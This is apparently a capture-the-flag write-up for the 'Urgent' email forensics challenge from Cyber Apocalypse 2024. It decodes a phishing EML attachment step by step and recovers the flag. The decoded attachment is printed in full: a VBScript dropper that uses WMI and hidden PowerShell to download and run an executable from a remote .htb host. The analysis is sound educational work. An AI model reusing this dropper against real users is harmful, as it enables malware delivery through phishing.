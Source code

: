```yaml
---
title: "[Cyber Apoc '24] Urgent"
date: 2024-03-16T19:15:43+08:00
authors:
  - Kairos
tags:
  - Forensics
ctfs:
  - CyberApoc'24
---
```


# [Cyber Apoc '24] Urgent

This was an email forensics challenge where we are given an EML message file and are required to extract the flag from
it. The given file can be found [here](forensics_urgent.zip).

## Description

> In the midst of Cybercity's "Fray," a phishing attack targets its factions, sparking chaos.
> As they decode the email, cyber sleuths race to trace its source, under a tight deadline.
> Their mission: unmask the attacker and restore order to the city.
> In the neon-lit streets, the battle for cyber justice unfolds, determining the factions' destiny.

## Analysis

An EML file is a plaintext file that contains email messages and attachments. That being said, since the file is
plaintext, we can simply use any text editor to view its contents. Using VSC's syntax highlighting:

![EML file](eml.png)

Looking at it, we can see that the email contains two Base64 encoded strings. There is an attachment
named `onlineform.html`. If we were to convert both the Base64 strings, we would get the following:

![Base64](string1.png)

This looks like some sort of HTML code snippet, which I assume is simply the first email's content with the email's
formatting. There isn't much here :(

![Base64](string2.png)

This looks more interesting - it has some JavaScript code an obfuscated string. The `document.write(unescape())`
function in JS is used to dynamically write content to an HTML document, and `unescape()` is a function that decodes
URL-encoded characters. For instance, `%20` would be decoded to a space character.

## Getting the Flag

We can simply use a decoder to decode the obfuscated string. I used [CyberChef](https://gchq.github.io/CyberChef/) to
decode the string:

```html

<html>
<head>
    <title></title>
<body>
<script language="JavaScript" type="text/javascript">
    document.write(unescape('<html>
            < head >
            < title > > _ < /title>
    <center><h1>404 Not Found</h1></center>
    <script language="VBScript">
        Sub window_onload
        const impersonation = 3
        Const HIDDEN_WINDOW = 12
        Set Locator = CreateObject("WbemScripting.SWbemLocator")
        Set Service = Locator.ConnectServer()
        Service.Security_.ImpersonationLevel=impersonation
        Set objStartup = Service.Get("Win32_ProcessStartup")
        Set objConfig = objStartup.SpawnInstance_
        Set Process = Service.Get("Win32_Process")
        Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object
        System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process
        '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
        window.close()
        end sub
</script>
</head>
</html>
'));
</script>
</body>
</html>
```

This code attempts to download an exe file from a remote server and executes it! Pretty interesting. But we also got the
flag :)